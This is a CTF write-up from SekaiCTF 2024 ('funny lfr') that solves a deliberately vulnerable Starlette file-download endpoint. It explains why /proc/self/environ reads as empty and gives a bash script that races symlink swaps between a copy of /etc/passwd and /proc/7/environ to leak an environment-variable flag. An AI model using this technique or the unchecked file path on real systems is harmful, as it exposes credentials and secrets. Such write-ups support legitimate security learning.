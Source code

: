 ```yaml
---
title: "SEKAI 24 - Funny Lfr"
date: 2024-08-30T11:01:21+01:00
tags: ["ctf", "write-up", "sekaictf"]
author: "hxuu"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "CTF write-up for Funny Lfr"
canonicalURL: ""
disableHLJS: false
disableShare: false
hideSummary: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "/images/default-cover.jpg" # default image path/url
    alt: "CTF Write-up Cover Image" # alt text
    caption: "CTF Write-up" # display caption under cover
    relative: false
    hidden: false
editPost:
    URL: "https://github.com/hxuu/content"
    Text: "Suggest Changes"
    appendFilePath: true
---
```


## Challenge Description

```
name: funny lfr
category: web exploitation
points: 183
solves: 36 solves
```

You can access the challenge via SSH:
```bash
ncat -nlvp 2222 -c "ncat --ssl funny-lfr.chals.sekai.team 1337" & ssh -p2222 user@localhost
```
SSH access is only for convenience and is not related to the challenge.

## Analysis

We are given the following source files:

```bash
├── app.py
└── Dockerfile
```

Which represent a simple [Starlette](https://www.starlette.io/) application:

```python
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import FileResponse


async def download(request):
    return FileResponse(request.query_params.get("file"))


app = Starlette(routes=[Route("/", endpoint=download)])
```

And a Dockerfile

```bash
FROM python:3.9-slim

RUN pip install --no-cache-dir starlette uvicorn

WORKDIR /app

COPY app.py .

ENV FLAG="SEKAI{test_flag}"

CMD ["uvicorn", "app:app", "--host", "0", "--port", "1337"]
```

At first glance the challenge seems very simple. You make a request to `/?file=<path>`
and get the file contents displayed to you.

### `Inside SSH`

![inside-ssh](/blog/images/2024-08-30-11-28-28.png)

The flag as highlighted by the Dockerfile is stored inside an environment variable
called `FLAG`. Doing a quick google search, we can see that environment variables
in linux systems are stored in the `/proc/pid/environ` file.

With that knowledge in hand, we should get the flag just by getting the results of
`/proc/self/environ` which stores the environment variables of the current running process.

Right?

![right?](/blog/images/2024-08-30-11-38-10.png)

We got nothing... That's weird.

We know the application should return the contents of the files we ask for. However,
asking for `/proc/self/environ` doesn't return anything. Why?

Well, the python application is a Starlette application that adheres to ASGI specs,
the FileResponse class is responsible for returning files to the client. Before serving
a file, FileResponse checks the file's size using the os.stat syscall.

### `from Starlette source code`

![stat-check](/blog/images/2024-08-30-11-52-53.png)

The `os.stat` function retrieves various attributes about a file, such as its size, modification time, and permissions. When `os.stat` is called on a file, it checks the filesystem for this information.

However, in the case of `/proc/self/environ`, which resides within the `procfs` virtual filesystem (VFS), there’s a unique situation. The `procfs` VFS provides access to kernel and process information, and many files within it are not regular files but rather interfaces to the kernel's data structures. These files often have special behaviors, and their contents may be dynamically generated when accessed.

When `os.stat` **checks** `/proc/self/environ`, it reports the file size as zero because, in many cases, the file doesn’t have a traditional size; it's an interface to process-specific information that’s only generated on demand. Consequently, when `FileResponse` sees a size of zero, it might interpret this as an empty or non-existent file, even though reading from `/proc/self/environ` would normally return environment variables for the process.

This behavior can lead to the application not returning any content when asked for `/proc/self/environ`, despite the file being non-empty in a traditional sense. The mismatch between how `os.stat` reports the file's size and the file's actual contents in `procfs` **is the root cause of this issue.**


---

So, what can we do then?

It turns out, we can trigger a race condition to do the following:

1. request a file whose size is greater than 0.
2. right after `os.stat` and before the actual **read**, we swap the latter file,
with the desired file which is `/proc/pid/environ`.

To achieve such a thing, we can make use of [symlinks](https://en.wikipedia.org/wiki/Symbolic_link), create a symlink that points
to a bigger file, bypass the `os.stat` step, then right before the file read, we change
the link to `/proc/pid/environ` and successfully get the flag.


## Exploitation

To trigger the race condition, let's first create a bash script that creates a large file,
create a symlink to it, and then create an infinite loop which swaps the links between this file
and `/proc/pid/environ`.

> Note that you should replace pid with the actuall process id of the running python application.
You can figure that using `ps aux`. pid=7 in my case.

### `solve.sh`

```bash
#!/usr/bin/env bash

cat /etc/passwd > /home/user/big-file.txt

ln -s big-file.txt /home/user/the-link

while true; do
    ln -sf /proc/7/environ          /home/user/the-link
    ln -sf /home/user/big-file.txt  /home/user/the-link
done
```

Running this on remote, and doing few curls of the `the-link` file should give us the flag.

![solve](/blog/images/2024-08-30-12-32-01.png)

---

Flag is: `SEKAI{b04aef298ec8d45f6c62e6b6179e2e66de10c542}`

Things we learned from this challenge:

Here are the key lessons from the challenge:

- **`os.stat` and `procfs`**: Learned how `os.stat` retrieves file attributes and why it reports `/proc/self/environ` as size zero in `procfs`.

- **Race Condition Exploit**: Discovered how to exploit race conditions using symlinks to bypass `os.stat` and read sensitive files.

- **Symlink Usage**: Learned to manipulate file paths using symlinks for exploitation purposes.

